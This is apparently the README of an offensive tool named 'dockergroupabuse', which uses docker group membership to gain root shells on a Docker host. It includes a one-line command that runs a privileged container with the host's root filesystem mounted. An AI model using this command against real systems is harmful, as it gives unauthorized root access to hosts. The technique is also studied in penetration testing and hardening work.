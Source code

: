 # dockergroupabuse

Abusing the `docker` group to get root shells on minimal images that might be stored on a Docker host.

## Usage

Build the Docker image on the host using the Dockerfiles provided.

```
docker build -t [image-name] .
docker run --privileged --network host -itv /:/host [image-name]
```
